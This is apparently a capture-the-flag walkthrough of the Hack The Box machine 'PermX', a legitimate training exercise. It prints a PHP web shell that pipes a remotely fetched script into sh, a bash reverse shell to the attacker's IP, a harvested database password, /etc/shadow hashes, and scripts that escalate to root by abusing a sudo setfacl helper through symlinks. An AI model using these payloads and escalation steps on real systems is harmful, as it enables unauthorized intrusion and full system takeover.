

## Summary

The box starts with only port `80/TCP` and port `22/TCP` open. Accessing port `80/TCP` redirects you to `http://permx.htb`. This is an indicator for potential `subdomains`. You will find two more `subdomains` called `lms.permx.htb` and `www.permx.htb`. On `lms.permx.htb` runs an instance of `Chamilo LMS`. You can find the version by `brute forcing directories` and reading the `README.md`. The version which is currently installed is vulnable to `CVE-2023-4220` which allows you to upload `arbitrary files` and `execute` them as a `unauthenticated user`. You gain foothold by simple following the `Proof of Concept (PoC)` exploitation steps. After getting a shell as `www-data`, you will find a `password` to the `database` of `Chamilo LMS` which is reuse for the user `mtz`. You can either switch user in the current session or SSH into the box to grab the `user.txt`. For the `privilege escalation` to `root` you will find out that the user `mtz` is able to execute a script called `acl.sh` which is placed in `/opt` using `sudo`. The `path traversal mitigation` in the script can easily abuse by just setting a `symlink` to the desired file and change their `permissions`. Since there is a pretty aggressive cleanup job, the easiest way to win the race against it is probably to add an entry to the `sudoers` file and grant yourself `ALL:ALL` permissions. User `sudo su` to switch to a shell as root and grab the `root.txt`.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
  - [Nmap](#Nmap)
  - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
  - [Subdomain Enumeration](#Subdomain-Enumeration)
- [Directory Busting](#Directory-Busting)
  - [Chamillo Enumeration](#Chamillo-Enumeration)
- [Foothold](#Foothold)
  - [CVE-2023-4220: Chamilo LMS Unauthenticated Big Upload File Remote Code Execution](#CVE-2023-4220-Chamilo-LMS-Unauthenticated-Big-Upload-File-Remote-Code-Execution)
- [Shell Stabilization](#Shell-Stabilization)
- [Enumeration](#Enumeration)
- [Privilege Escalation to mtz](#Privilege-Escalation-to-mtz)
  - [Password Reuse](#Password-Reuse)
- [user.txt](#usertxt)
- [Pivoting](#Pivoting)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
  - [Automation](#Automation)
- [root.txt](#roottxt)

## Reconnaissance

The box started with only port `22/TCP` and port `80/TCP` open.

### Nmap

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.221.151
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-06 15:02 EDT
Nmap scan report for 10.129.221.151
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.95 seconds
```

### Enumeration of Port 80/TCP

Since we got redirected to `http://permx.htb` when we tried to accessed the website, we added it to our `/etc/hosts` file as usual.

- [http://10.129.221.151/](http://10.129.221.151/)

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.221.151  permx.htb
```

- [http://permx.htb/](http://permx.htb/)

The website itself didn't contain any useful information.


### Subdomain Enumeration

Since we had to add the `permx.htb` to our `/etc/hosts` file, enumerating potential `subdomain` was the next logical step.  

```c
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.permx.htb" -u http://permx.htb --fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 1309ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 3379ms]
:: Progress: [19966/19966] :: Job [1/1] :: 51 req/sec :: Duration: [0:03:43] :: Errors: 9 ::
```

We also added the newly found entries and started investigating them.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.221.151  permx.htb
10.129.221.151  lms.permx.htb
10.129.221.151  www.permx.htb
```

The interesting one was `lms.permx.htb` which offered us a `login form`.



## Directory Busting

To find more files related to the application we started `directory busting` and found quite a lot of interesting files.

```c
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://lms.permx.htb

  _|. _ _  _  _  _ _|_    v0.4.3                                                 
 (_||| _) (/_(_|| (_| )                                                                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_lms.permx.htb/_24-07-06_15-08-20.txt

Target: http://lms.permx.htb/

[15:08:20] Starting:                                                                                                                                                                                                                        
[15:08:21] 200 -   46B  - /.bowerrc                                         
[15:08:21] 200 -    2KB - /.codeclimate.yml                                 
[15:08:23] 403 -  278B  - /.ht_wsr.txt                                      
[15:08:23] 403 -  278B  - /.htaccess.orig                                   
[15:08:23] 403 -  278B  - /.htaccess.sample
[15:08:23] 403 -  278B  - /.htaccess.save
[15:08:23] 403 -  278B  - /.htaccess_extra                                  
[15:08:23] 403 -  278B  - /.htaccess_orig
[15:08:23] 403 -  278B  - /.htaccess_sc
[15:08:23] 403 -  278B  - /.htaccessBAK                                     
[15:08:23] 403 -  278B  - /.htaccessOLD
[15:08:23] 403 -  278B  - /.htaccessOLD2
[15:08:23] 403 -  278B  - /.html                                            
[15:08:23] 403 -  278B  - /.htpasswd_test                                   
[15:08:23] 403 -  278B  - /.htpasswds                                       
[15:08:23] 403 -  278B  - /.httr-oauth
[15:08:23] 403 -  278B  - /.htaccess.bak1                                   
[15:08:24] 403 -  278B  - /.htm                                             
[15:08:26] 403 -  278B  - /.php                                             
[15:08:27] 200 -    3KB - /.scrutinizer.yml                                 
[15:08:27] 200 -    4KB - /.travis.yml                                      
[15:08:44] 301 -  312B  - /app  ->  http://lms.permx.htb/app/               
[15:08:44] 200 -  708B  - /app/                                             
[15:08:44] 200 -  540B  - /app/cache/                                       
[15:08:44] 200 -  407B  - /app/logs/                                        
[15:08:47] 301 -  312B  - /bin  ->  http://lms.permx.htb/bin/               
[15:08:47] 200 -  455B  - /bin/                                             
[15:08:48] 200 -    1KB - /bower.json                                       
[15:08:48] 200 -  101KB - /app/bootstrap.php.cache                          
[15:08:51] 200 -    7KB - /composer.json                                    
[15:08:53] 200 -    5KB - /CONTRIBUTING.md                                  
[15:08:55] 200 -    1KB - /documentation/                                   
[15:08:56] 301 -  322B  - /documentation  ->  http://lms.permx.htb/documentation/
[15:08:58] 200 -    2KB - /favicon.ico                                      
[15:09:03] 200 -    4KB - /index.php                                        
[15:09:03] 200 -    4KB - /index.php/login/                                 
[15:09:07] 200 -  842B  - /license.txt                                      
[15:09:10] 301 -  313B  - /main  ->  http://lms.permx.htb/main/             
[15:09:10] 200 -   97B  - /main/                                            
[15:09:10] 200 -   34KB - /LICENSE                                          
[15:09:12] 200 -  587KB - /composer.lock                                    
[15:09:22] 200 -  403B  - /robots.txt                                       
[15:09:23] 403 -  278B  - /server-status                                    
[15:09:23] 403 -  278B  - /server-status/                                   
[15:09:24] 200 -    8KB - /README.md                                        
[15:09:27] 200 -  444B  - /src/                                             
[15:09:28] 301 -  312B  - /src  ->  http://lms.permx.htb/src/               
[15:09:31] 302 -    0B  - /user.php  ->  whoisonline.php                    
[15:09:32] 200 -    1KB - /vendor/                                          
[15:09:32] 200 -    0B  - /vendor/autoload.php                              
[15:09:32] 200 -    0B  - /vendor/composer/autoload_files.php
[15:09:32] 200 -    0B  - /vendor/composer/ClassLoader.php
[15:09:32] 200 -    1KB - /vendor/composer/LICENSE
[15:09:32] 200 -    0B  - /vendor/composer/autoload_psr4.php                
[15:09:32] 200 -    0B  - /vendor/composer/autoload_static.php              
[15:09:32] 200 -    0B  - /vendor/composer/autoload_namespaces.php          
[15:09:32] 200 -    0B  - /vendor/composer/autoload_real.php                
[15:09:32] 200 -    0B  - /vendor/composer/autoload_classmap.php            
[15:09:34] 200 -    6KB - /web.config                                       
[15:09:34] 200 -  479B  - /web/                                             
[15:09:39] 200 -  531KB - /vendor/composer/installed.json                    
                                                                             
Task Completed
```

### Chamillo Enumeration

From the `README.md` we extracted the `version` of the running instance.

- [http://lms.permx.htb//README.md](http://lms.permx.htb//README.md)

```c
# Chamilo 1.11.x
```

## Foothold

### CVE-2023-4220: Chamilo LMS Unauthenticated Big Upload File Remote Code Execution

The version of `Chamilo LMS` running on the box was vulnerable to `CVE-2023-4220` which allows an `unauthenticated` attacker to `upload arbitrary files` to the system.

- [https://starlabs.sg/advisories/23/23-4220/](https://starlabs.sg/advisories/23/23-4220/)

We prepared our payloads and followed the `Proof of Concept (PoC)` steps described in the article.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/files]
└─$ echo '<?php system("curl http://10.10.14.66/x|sh"); ?>' > rce.php
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.66/9001 0>&1'
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/files]
└─$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/files]
└─$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.221.151 - - [06/Jul/2024 15:47:44] "GET /x HTTP/1.1" 200 -
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.66] from (UNKNOWN) [10.129.221.151] 52984
bash: cannot set terminal process group (1139): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

## Shell Stabilization

Since we got a shell as `www-data`, stabilizing our shell was business as usual.

```c
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<les$ python3 -c 'import pty;pty.spawn("/bin/bash")'                     
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
<milo/main/inc/lib/javascript/bigupload/files$ export XTERM=xterm            
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

## Enumeration

A quick enumeration revealed a new user called `mtz`.

```c
www-data@permx:/var/www$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

| Username |
| -------- |
| mtz      |

We harvested some credentials from a `configuration file` inside the `app` directory of `Chamilo LMS` inside `/var/www/` which could be used to access the applications `database`.

```c
www-data@permx:/var/www/chamilo/app/config$ ^C
<milo/app/config$ cat configuration.php | grep password                      
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

| Password         |
| ---------------- |
| 03F6lY3uXAP2bkW8 |

## Privilege Escalation to mtz

### Password Reuse

Luckily for us, the password was `reused` by `mtz` and we were able to grab the `user.txt`.

```c
┌──(kali㉿kali)-[~]
└─$ ssh mtz@permx.htb
The authenticity of host 'permx.htb (10.129.221.151)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'permx.htb' (ED25519) to the list of known hosts.
mtz@permx.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jul  6 07:51:47 PM UTC 2024

  System load:           0.08
  Usage of /:            59.0% of 7.19GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.129.221.151
  IPv6 address for eth0: dead:beef::250:56ff:fe94:ac60


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Mon Jul  1 13:09:13 2024 from 10.10.14.40
mtz@permx:~$
```

## user.txt

```c
mtz@permx:~$ cat user.txt 
3b20098a099fd0ad459b72e615f4bc57
```

## Pivoting

We checked the capabilities of our newly gained user and found out that we could execute a script called `acl.sh` located in `/opt` by using `sudo`.

```c
mtz@permx:~$ id
uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
```

```c
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

The script basically allowed us to `change` the `permissions` of any file on the system but had some `path traversal mitigration` inplemented.

```c
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

## Privilege Escalation to root

We basically tried to achieve the steps described in the resource of `GTFObins` and for doing so, we abused `symlinks` to link a file outside our `home directory` to change the permissions of it and to make it accessible to us.

- [https://gtfobins.github.io/gtfobins/setfacl/#sudo](https://gtfobins.github.io/gtfobins/setfacl/#sudo)

For our first approach we picked `/etc/shadow` and linked it to an `arbitrary filename` in our `home directory`.

```c
mtz@permx:~$ ln -s /etc/shadow /home/mtz/shadow_link
```

We set `rwx` permissions on it by using the script with `sudo` and since we then were able to read and also write `/etc/shadow`, we copied the `hash` of `mtz` to `root` and saved it.

```c
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/shadow_link
```

```c
mtz@permx:~$ cat /etc/shadow
root:$y$j9T$VEMcaSLaOOvSE3mYgRXRv/$tNXYdTRyCAkwoSHhlyIoCS91clvPEp/hh0r4NTBlmS7:19742:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
messagebus:*:19579:0:99999:7:::
systemd-timesync:*:19579:0:99999:7:::
pollinate:*:19579:0:99999:7:::
sshd:*:19579:0:99999:7:::
syslog:*:19579:0:99999:7:::
uuidd:*:19579:0:99999:7:::
tcpdump:*:19579:0:99999:7:::
tss:*:19579:0:99999:7:::
landscape:*:19579:0:99999:7:::
fwupd-refresh:*:19579:0:99999:7:::
usbmux:*:19742:0:99999:7:::
mtz:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999:7:::
lxd:!:19742::::::
mysql:!:19742:0:99999:7:::
```

```c
mtz@permx:~$ vi /etc/shadow
```

```c
mtz@permx:~$ cat /etc/shadow
root:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
messagebus:*:19579:0:99999:7:::
systemd-timesync:*:19579:0:99999:7:::
pollinate:*:19579:0:99999:7:::
sshd:*:19579:0:99999:7:::
syslog:*:19579:0:99999:7:::
uuidd:*:19579:0:99999:7:::
tcpdump:*:19579:0:99999:7:::
tss:*:19579:0:99999:7:::
landscape:*:19579:0:99999:7:::
fwupd-refresh:*:19579:0:99999:7:::
usbmux:*:19742:0:99999:7:::
mtz:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999:7:::
lxd:!:19742::::::
mysql:!:19742:0:99999:7:::
```

All we then had to do was to switch the user session to root.

```c
mtz@permx:~$ su root
Password: 
root@permx:/home/mtz#
```

### Automation

Since there was a pretty aggressive cleanup job running, `xvt` and `Yeeb` came up with two automated solutions to make it easier to exploit.

#### xvt's Solution

```c
mtz@permx:~$ cat shell.sh
#!/bin/bash
ln -sf / /home/mtz/root
sudo /opt/acl.sh mtz rwx "/home/mtz/root/etc/passwd"
sed -i 's/root:x:/root::/' /etc/passwd
sleep 1
su root
```

#### Yeeb's Solution

```c
mtz@permx:~$ cat shell.sh
#!/bin/bash

rm -f /home/mtz/sudoers_link
ln -s /etc/sudoers /home/mtz/sudoers_link

sudo /opt/acl.sh mtz rwx /home/mtz/sudoers_link

echo "mtz ALL=(ALL) NOPASSWD: ALL" | tee -a /home/mtz/sudoers_link

sudo -l
```

## root.txt

```c
root@permx:/home/mtz# cat /root/root.txt
dab094697a3d5907e1a20b225d63e24d
```
